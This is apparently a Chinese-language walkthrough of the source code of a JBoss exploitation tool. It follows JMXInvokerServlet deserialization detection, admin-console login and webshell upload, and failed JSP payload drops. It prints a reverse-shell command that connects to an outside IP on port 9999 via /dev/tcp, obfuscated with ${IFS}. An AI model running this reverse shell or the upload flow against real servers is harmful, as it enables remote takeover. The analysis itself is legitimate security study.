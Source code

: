 接受-u参数中的url，然后交给check_vul函数处理

然后进入 elif vector == "JMXInvokerServlet": 逻辑

只要符合条件 if r.getheader('Content-Type') is not None and 'x-java-serialized-object' in r.getheader('Content-Type'):

就会返回200，即漏洞存在

然后将200存储进paths，退出check函数，回到main函数，遍历check函数返回值

这个时候会判断是否配置了自动利用，因为没有配置过，所以直接跳过

然后进入判断逻辑，有两种可能，一种是app deser，一种是else，因为我们的目标是jmxinvokerservlet，所以进入else

接下来会提示进入反弹shell/执行简单cmd，接受用户输入以后，

进入autoexploit函数，这里就可以看出来，前面的自动利用判断相当于强制执行，而这里是给了用户选择的权利

跟进auto函数后发现app de和servlet de似乎是同一种利用方式，而其余的是另一种



admin-console漏洞判断及利用逻辑


下面会有漏洞利用类型的判断逻辑，进入admin-console，会访问/admin-console/login.seam页面

判断页面正常就会获取cookie和token，具体细节不表

然后将新获取的cookie和token分别放进头和body中，再将账号密码放进body中，请求页面，

如果302跳转了，说明登陆成功，如果返回状态值200，说明失败，sleep几秒以后，返回登陆失败提示

如果成功，这里会进行两个请求，然后上传一个二进制文件，这是一个小马



和上面admin一样，先判断是不是autoexploit，然后判断app der，因为这里是jmxinvoker，所以进入else

然后提示即将返回一个简单cmd，问你是否继续，输入yes，进入autoexploit。

然后进入invoker逻辑，对url进行处理只保留【协议://域名:端口】，

然后交给_exploits.exploit_jmx_invoker_file_repository处理，发现payload的数据类型是列表，猜测是16进制的

其实poc不难，就两种版本，只有四个字符的不同

他会通过post请求/invoker/JMXInvokerServlet然后将jsp写进去，

但是很尴尬，这个payload似乎不起效果，/jexinv4/jexinv4.jsp无法访问，404

别担心作者还有后手，让_exploits.exploit_jmx_invoker_file_repository去继续利用，只是这次换成了version=1，也就是上面说的另一个版本

结果还是不行，404

依然没关系，作者还有办法，可以生成cmd反弹shell，'/bin/bash -c /bin/bash${IFS}-i>&/dev/tcp/39.105.165.219/9999<&1'

这种写法的优点是没有空格，不会触发runtime的错误，然后把这个shell放到commonscollections3里面处理一下，

然后请求invoker页面，这次能返回200，我有点怀疑是不是之前的jsp那个payload有问题呀，

至此，admin和jmxinvoker就走完了，整个工具的代码就感觉逻辑有点复杂，显然非一日之功，安全之路道阻且长啊。


S2-046 CVE-2017-5638

